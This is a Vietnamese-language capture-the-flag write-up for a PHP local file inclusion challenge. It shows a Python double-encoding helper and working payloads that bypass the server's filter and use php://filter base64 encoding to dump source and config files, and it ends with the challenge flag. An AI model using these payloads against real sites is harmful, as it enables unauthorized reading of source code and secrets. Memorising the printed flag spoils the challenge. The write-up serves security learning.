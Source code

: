 # Local File Inclusion - Double encoding

**30 Points**  

Include can be dangerous.

**Statement**
Find the validation password in the source files of the website.

## Analysis:

Xác định source (nơi ta có thể chèn input) là tại tham số `page` của URL. Thử payload `../` thì bị báo **"Attack detected."**. Thử chuyển qua URL-encoding thành `%2e` (.) và `%2f` (/) cũng bị detected nốt. Bộ lọc bên server là:

Filter: `.` `/` `%2f` `%2e`

Tên bài là "Double encoding" cho ta gợi ý nên bypass filter bằng cách _Double-encode_ payload. Ví dụ như hồi nãy bị filter `%2e` thì mình sẽ Url-encode dấu `%` thành `%25` (%). Vậy ta có `%252e` sẽ là dấu `.`. Thử payload:

```
%252e
```

![image](https://user-images.githubusercontent.com/48288606/163758956-25024a41-a5d4-414d-ade6-ffd390e827ab.png)

Vậy là ta đã chèn payload vào thành công, chỉ vướng lỗi logic (ta sẽ xác định sau). Mình viết một snippet python nho nhỏ để tạo double-encoding:

```python
string = "../" # This string would be double-encoded.
payload = ""
filter = ['.','/']

for c in string:
    if c in filter:
        payload += "%25" + hex(ord(c))[2:]
    else:
        payload += c

print(payload)
```

Bây giờ mình sẽ thử payload `../` và phân tích. Double-encoded payload: `%252e%252e%252f`. 

![image](https://user-images.githubusercontent.com/48288606/163759491-500a5786-9ff0-4fc7-b2af-18c18f22e5f9.png)

Bên server dùng hàm [include()](https://www.php.net/manual/en/function.include.php) để lấy file, hàm này được xem là một hàm rủi ro nếu không có thao tác xử lý dữ liệu truyền vào như parameter `page`. Ngoài ra, đường dẫn mà chúng ta yêu cầu tài nguyên `../.inc.php` bị ra khỏi vùng cho phép `/tmp`. Đồng thời ta nhận ra chuỗi của chúng ta được concat với `.inc.php`. Vậy bình thường ta để giá trị `contact` thì file được truy vấn sẽ là `contact.inc.php`

Với việc không liệt kê file trong kết quả trả về, ta không thể dò tìm file ta mong muốn. Đối với dạng LFI có một kỹ thuật là [PHP wrapper](https://www.php.net/manual/en/wrappers.php). Wrappers là một code bổ sung cho một stream để xử lý các giao thức / mã hóa cụ thể. Ví dụ: wrappers `http` biết cách dịch một URL thành một **HTTP** request cho một file trên máy chủ từ xa. Khi làm việc với wrapper vì luồng stream được xử lý và được read ra nên ouput sẽ là nội dung của một file nào đó (do mình tùy chọn). Tham khảo [thêm](https://www.php.net/manual/en/intro.stream.php#:~:text=Introduction%20%C2%B6&text=A%20wrapper%20is%20additional%20code,file%20on%20a%20remote%20server.)

Áp dụng kỹ thuật này vào payload. Sử dụng `php://filter/resource=contact` với trang **contact**. Payload: 

```
php:%252f%252ffilter%252fconvert%252ebase64-encode%252fresource=contact
```

Output mã nguồn của file của chúng sẽ bị mã hóa base64 vì chúng ta chọn [Conversion Filters](https://www.php.net/manual/en/filters.convert.php) là `convert.base64-encode` (tương đương với đưa toàn bộ stream content qua hàm **base64_encode()**) 

![image](https://user-images.githubusercontent.com/48288606/163790457-3b104c42-b13c-4c49-9e2f-2a2361f9f33d.png)

Decode base64 bằng lệnh `base64 -d` (Linux):

```
echo "<string-to-be-decoded>" | base64 -d 
```

Chúng ta có source code PHP:

```php
<?php include("conf.inc.php"); ?>
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>J. Smith - Contact</title>
  </head>
  <body>
    <?= $conf['global_style'] ?>
    <nav>
      <a href="index.php?page=home">Home</a>
      <a href="index.php?page=cv">CV</a>
      <a href="index.php?page=contact" class="active">Contact</a>
    </nav>
    <div id="main">
      <h2>Contact</h2>
      <p>If you got to talk to me, don't hesitate to send me an email <a href="mailto:<?= $conf['contact']['mail'] ?>">here</a>.</p>
      <p>You can also phone me on this number : <?= $conf['contact']['phone'] ?></p>
    </div>
  </body>
</html>
```

Vậy chúng ta chỉ có thể đọc file đã biết tên và đường dẫn cụ thể. Theo codebase ở trên thì ta thấy có file `conf.inc.php`. Vào đây check nội dung file, dùng `php://filter/convert.base64-encode/resource=conf`. Payload:

```
php:%252f%252ffilter%252fconvert%252ebase64-encode%252fresource=conf
```

![image](https://user-images.githubusercontent.com/48288606/163792362-b86c7732-89f5-46e8-a489-a056fe9346ed.png)

Decode tương tự bằng `base64` command:

```php
<?php
  $conf = [
    "flag"        => "Th1sIsTh3Fl4g!",
    "home"        => '<h2>Welcome</h2>
    <div>Welcome on my personal website !</div>',
    "cv"          => [
      "gender"      => true,
      "birth"       => 441759600,
      "jobs"        => [
        [
          "title"     => "Coffee developer @Megaupload",
          "date"      => "01/2010"
        ],
        [
          "title"     => "Bed tester @YourMom's",
          "date"      => "03/2011"
        ],
        [
          "title"     => "Beer drinker @NearestBar",
          "date"      => "10/2014"
        ]
      ]
    ],
    "contact"       => [
      "firstname"     => "John",
      "lastname"      => "Smith",
      "phone"         => "01 33 71 00 01",
      "mail"          => "john.smith@thegame.com"
    ],
    "global_style"  => '<style media="screen">
      body{
        background: rgb(231, 231, 231);
        font-family: Tahoma,Verdana,Segoe,sans-serif;
        font-size: 14px;
      }
      div#main{
        padding: 20px 10px;
      }
      nav{
        border: 1px solid rgb(101, 101, 101);
        font-size: 0;
      }
      nav a{
        font-size: 14px;
        padding: 5px 10px;
        box-sizing: border-box;
        display: inline-block;
        text-decoration: none;
        color: #555;
      }
      nav a.active{
        color: #fff;
        background: rgb(119, 138, 144);
      }
      nav a:hover{
        color: #fff;
        background: rgb(119, 138, 144);
      }
      h2{
        margin-top:0;
      }
      </style>'
  ];
```

Ta có được flag trong source code.



Flag: **Th1sIsTh3Fl4g!**
